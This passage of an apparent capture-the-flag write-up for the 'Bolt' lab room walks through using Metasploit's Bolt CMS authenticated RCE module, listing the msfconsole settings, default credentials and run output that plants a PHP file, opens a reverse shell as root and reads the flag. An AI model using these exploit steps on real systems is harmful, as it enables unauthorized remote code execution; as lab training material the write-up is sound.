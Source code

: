 Here, we got the path of the exploit in Metasploit which we can submit as the answer to the sixth question.

7. ##### Set the **LHOST, LPORT, RHOST, USERNAME, PASSWORD** in msfconsole before running the exploit

```
msf5 > use 2
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set rhosts <machine_ip>
rhosts => <machine_ip>
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set lhost tun0
lhost => <local_ip>
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set username bolt
username => bolt
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set password boltadmin123
password => boltadmin123
```

8. ##### Look for flag.txt inside the machine.

Now, we can run the exploit to gain access over the machine:

```
msf5 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 10.8.91.135:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "qqaq".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file jquscnny.php.
[+] Used token 657413b1d8e8b23c0fd47f76e8 to create vitopjnc.php.
[*] Attempting to execute the payload via "/files/vitopjnc.php?qqaq=`payload`"
[*] Command shell session 1 opened (10.8.91.135:4444 -> 10.10.59.229:39618) at 2020-08-30 15:51:24 +0530
[!] No response, may have executed a blocking payload!
[+] Deleted file vitopjnc.php.
[+] Reverted user profile back to original state.

whoami
root
find / -name flag.txt 2> /dev/null
/home/flag.txt
cat /home/flag.txt
```

It can be seen that we logged in directly as the `root`. Also, we can use the `find` command to search for the flag and then submit the it to the final question.

With this we completed the room Bolt!

## Some Key Points to Take Away

1. Whenever exploiting a service, always read it's documentation for default paths and credentials.
2. Use Google, ExploitDB, AttackerKB, Rapid7 and other such websites to look for related CVE's.